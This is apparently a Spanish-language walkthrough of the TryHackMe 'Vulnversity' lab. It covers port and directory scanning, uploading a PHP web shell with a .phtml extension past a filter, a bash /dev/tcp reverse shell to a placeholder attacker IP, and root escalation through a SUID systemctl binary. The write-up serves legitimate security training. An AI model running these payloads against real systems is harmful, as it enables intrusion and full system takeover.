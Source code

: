 https://tryhackme.com/r/room/vulnversity
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sT -Pn --top-ports 500 -open -T5 -v -n 10.10.186.218 -oG allPorts
```
![[Pasted image 20240426174427.png]]
## Reconocimiento de servicios
```
nmap -sCV -p21,22,139,445,3128,3333 10.10.186.218 -oN targeted
```
![[Pasted image 20240426174610.png]]
## crackmapexec
```
crackmapexec smb 10.10.186.218
```
![[Pasted image 20240426173603.png]]
[-] Parcheado

## Gobuster
```
gobuster dir -u http://10.10.186.218:3333 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![[Pasted image 20240426175926.png]]
# Fase de ataque
Podemos hacer un LFI to RCE en /internal
1. Creamos un payload
```
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```
![[Pasted image 20240426180945.png]]
2. Observamos que la extensión .php no está permitida por lo que la cambiamos hasta encontrar otra que funciona .phtml
3. Insertamos el payload
![[Pasted image 20240426181202.png]]
## Para ganar acceso al sistema (Reverse Shell)

1. Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
2. Mandamos la Reverse Shell
```
?cmd=bash -c "bash -i>%26 /dev/tcp/<ipA>/443 0>%261"
```

[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```

# Privilege Escalation
## Privilege Escalation via SUID
1. Primero buscamos archivos donde tenga permisos
```
find / -perm-u=s -type f 2>/dev/null
```
2. Vemos que /bin/systemctl tiene permisos
3. cd /bin
4. Buscamos la vulnerabilidad aquí: [gtfobins.](https://gtfobins.github.io/gtfobins/systemctl/)
5. Ejecutamos este comando. En ExecStart entre "" ponemos el comando a ejeuctar
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
6. 
```
bash -p
```
[+] ==pwned!==
